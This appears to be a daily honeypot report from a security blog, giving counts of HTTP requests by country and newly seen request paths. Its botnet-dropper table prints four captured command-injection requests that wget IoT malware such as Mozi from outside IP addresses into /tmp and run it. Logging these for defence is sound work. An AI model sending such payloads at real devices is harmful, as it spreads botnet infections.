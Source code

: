 ```yaml
---
title: "Report: 2025-04-24 "
date: 2025-04-24
desciption: "Report: 2025-04-24" 
tags: [repport, daily]
---
```



# Daily Report: 2025-04-24 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 4 stage 1 IP address(es), linked to 4 dropper URL(s).  

There are 10 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1994 requests were recorded during the day, originating from 4 different countries, with a peak of 496 requests coming from GB.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |
| GB               | Georgia            |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                                                                                                                                                                                              |
|:---------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 139.5.10.75    | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                                                                                                                                |
| 124.220.11.157 | GET /shell?cd%20%2Ftmp%3B%20wget%20http%3A%2F%2F45.95.147.201%2Fbins%2Farm7%3B%20chmod%20777%20arm7%3B%20.%2Farm7%20jaws%3B HTTP/1.1\x5Cr\x5CnUser-Agent: Mozila/5.0\x5Cr\x5CnHost: 127.0.0.1:80\x5Cr\x5CnAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8\x5Cr\x5CnConnection: keep-alive\x5Cr\x5Cn\x5Cr\x5Cn\x11 |
| 8.152.208.190  | GET /shell?cd+/tmp;rm+-rf+*;wget+ 45.90.162.234/wdjkalwww/telnet.arm5;chmod+777+/tmp/telnet.arm5;sh+/tmp/telnet.arm5 HTTP/1.1                                                                                                                                                                                                                        |
| 5.183.209.244  | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F212.18.104.182%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                                                                                                                                          |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                |
|----:|----------------------:|:---------------------------------------|
|  31 |                     6 | POST /show HTTP/1.1                    |
| 159 |                     2 | GET /admin.php?520 HTTP/1.1            |
| 214 |                     1 | GET /pmd/index.php HTTP/1.1            |
| 223 |                     1 | POST /api/v1/validate/code HTTP/1.1    |
| 233 |                     1 | GET /odinhttpcall1745486121 HTTP/1.1   |
| 234 |                     1 | GET /OdinHttpCall1745486121 HTTP/1.1   |
| 235 |                     1 | GET /Odin/http/call1745486121 HTTP/1.1 |
| 307 |                     1 | GET /OdinHttpCall1745523802 HTTP/1.1   |
| 308 |                     1 | GET /Odin/http/call1745523802 HTTP/1.1 |
| 338 |                     1 | GET /odinhttpcall1745523802 HTTP/1.1   |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   496 | GB                 |
|  1 |                   344 | NL                 |
|  2 |                   307 | US                 |
|  3 |                   154 | SC                 |
|  4 |                   132 | BG                 |
|  5 |                   101 | DE                 |
|  6 |                    94 | PL                 |
|  7 |                    61 | KR                 |
|  8 |                    45 | CN                 |
|  9 |                    37 | RU                 |
| 10 |                    34 | HK                 |
| 11 |                    23 | IN                 |
| 12 |                    15 | SG                 |
| 13 |                    15 | CA                 |
| 14 |                    12 | CH                 |
| 15 |                    11 | ZA                 |
| 16 |                    11 | AU                 |
| 17 |                    10 | AO                 |
| 18 |                    10 | TR                 |
| 19 |                     9 | VN                 |
| 20 |                     8 | BE                 |
| 21 |                     7 | FR                 |
| 22 |                     6 | LT                 |
| 23 |                     6 | SE                 |
| 24 |                     6 | IL                 |
| 25 |                     5 | BR                 |
| 26 |                     4 | MD                 |
| 27 |                     4 | KW                 |
| 28 |                     3 | GH                 |
| 29 |                     3 | IT                 |
| 30 |                     3 | PT                 |
| 31 |                     2 | IR                 |
| 32 |                     2 | VE                 |
| 33 |                     2 | ID                 |
| 34 |                     2 | JP                 |
| 35 |                     2 | UA                 |
| 36 |                     1 | CZ                 |
| 37 |                     1 | AE                 |
| 38 |                     1 | PH                 |
| 39 |                     1 | AL                 |
| 40 |                     1 | RO                 |
| 41 |                     1 | NP                 |
| 42 |                     1 | AR                 |
| 43 |                     1 | PA                 |
